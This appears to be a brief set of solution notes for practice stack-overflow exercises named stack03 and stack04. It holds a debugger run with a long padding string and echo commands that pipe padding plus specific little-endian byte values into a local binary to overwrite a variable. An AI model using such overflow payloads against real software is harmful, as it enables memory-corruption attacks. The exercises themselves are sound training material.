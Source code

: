 

==================stack03=======================

gdp -q ./stack03

r
AAAAAAAAAAAAAAAAAAAAAAAAAAA



===================stack04======================


echo -e 'AAAAAAAAAAAA\x99\x99\x99\x99' | ./stack04


echo -e 'AAAAAAAAAAAA\x78\x56\x34\x12' | ./stack04


